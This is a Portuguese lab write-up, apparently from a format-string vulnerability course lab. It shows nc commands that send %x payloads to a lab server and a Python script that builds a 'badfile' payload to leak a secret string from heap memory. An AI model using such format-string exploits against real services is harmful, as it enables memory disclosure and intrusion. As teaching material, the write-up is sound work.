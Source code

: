 Foi assim quebrado o programa vulnerável.

## Tarefa 2: Imprimindo a Memória do Programa do Servidor

### Tarefa 2A: Dados da Pilha

Se fornecermos, do lado do cliente (sob a forma ```echo <input> | nc 10.9.0.5 9090```), um _input_ começado por ```AAAA```, ao desempenhar a tarefa, sabemos que chegamos à região de memória desses caracteres (e, portanto, aos primeiros 4 bytes do nosso _input_) quando vemos, do lado do servidor, ```41414141```.

Então, executando ```echo AAAA%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x | nc 10.9.0.5 9090``` (```AAAA``` seguido de 64 ```%x```), podemos ver, então, do lado do servidor, ```41414141```.

![Tarefa 2A](images/LB_7/Tarefa_2A.png)

Assim, existem 63 bytes entre a região de memória de início da _string_ de formatação e o início de ```msg```.

### Tarefa 2B: Dados da _Heap_

Tendo em conta os resultados obtidos na alínea anterior, procede-se à criação de um ficheiro ```badfile``` que servirá de _input_ para o programa vulnerável no servidor.

Com base na informação fornecida pelo servidor, sabemos que o endereço de memória da mensagem secreta é ```0x080b4008```.

Com a ajuda de um pequeno _script_ em Python, geramos ```badfile```:

```python
 1  #!/usr/bin/python3
 2  import sys
 3  N = 1500
 4  content = bytearray(0x0 for i in range(N))
 5  
 6  address = 0x080b4008
 7  content[0:4] = (address).to_bytes(4, byteorder='little')
 8  
 9  s = (".%x"*63) + ".%s"
10  fmt = (s).encode('latin-1')
11  content[4:4+len(fmt)] = fmt
12  
13  with open('badfile', 'wb') as f:
14      f.write(content)
```
